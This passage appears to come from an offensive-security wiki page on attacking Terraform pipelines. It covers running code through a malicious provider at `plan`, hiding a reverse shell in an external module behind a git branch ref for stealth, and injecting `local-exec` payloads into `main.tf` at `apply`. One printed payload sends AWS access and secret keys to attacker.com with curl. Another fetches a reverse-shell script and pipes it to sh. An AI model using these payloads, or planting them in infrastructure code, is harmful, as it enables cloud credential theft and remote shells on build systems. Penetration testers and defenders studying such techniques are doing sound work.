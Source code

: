 The provider is downloaded in the `init` and will run the malicious code when `plan` is executed

You can find an example in [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

**Using an external reference**

Both mentioned options are useful but not very stealthy (the second is more stealthy but more complex than the first one). You can perform this attack even in a **stealthier way**, by following this suggestions:

- Instead of adding the rev shell directly into the terraform file, you can **load an external resource** that contains the rev shell:

```javascript
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```

You can find the rev shell code in [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

- In the external resource, use the **ref** feature to hide the **terraform rev shell code in a branch** inside of the repo, something like: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply will be executed to apply all the changes, you can also abuse it to obtain RCE injecting **a malicious Terraform file with** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
You just need to make sure some payload like the following ones ends in the `main.tf` file:

```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
  provisioner "local-exec" {
    command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
  }
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
  provisioner "local-exec" {
    command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
  }
}
```

Follow the **suggestions from the previous technique** the perform this attack in a **stealthier way using external references**.

## Secrets Dumps
